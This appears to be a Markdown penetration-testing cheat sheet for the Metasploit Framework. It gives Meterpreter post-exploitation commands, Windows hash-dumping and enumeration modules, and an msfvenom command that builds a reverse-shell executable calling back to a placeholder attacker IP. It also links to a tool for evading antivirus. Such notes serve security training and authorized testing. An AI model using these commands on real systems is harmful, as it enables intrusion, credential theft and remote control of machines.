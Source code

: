 # METASPLOIT

* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - the ultimate guide to the Metasploit Framework
* [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion/) - generate metasploit payloads that bypass anti-virus solutions

Starting
--------
```
service postgresql start
msfdb init
msfconsole
```

Useful Metasploit Console Commands
----------------------------------
* [MSFconsole Core Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)  
```
jobs
sessions -i 1
set session 1
```

Useful Meterpreter Commands
---------------------------
```
sysinfo
exit/quit
download/upload (use C:\\)
edit
getpid
geuid
ps
kill
execute
migrate
search -f network-secret.txt
shell
```

Post-exploitation module: `run winenum` script.  
Windows hashes: `run post/windows/gather/smart_hashdump`  

* [Web Delivery explained](https://www.offensive-security.com/metasploit-unleashed/web-delivery/) //tip: check if there's port added in the payload URL

msfvenom
--------

* [How to use msfvenom](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

Typical Windows exe payload:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe`  

As an example, the payload can be delivered via webserver. Then `use exploit/multihandler`, set appropriate payload, IPs, ports etc.
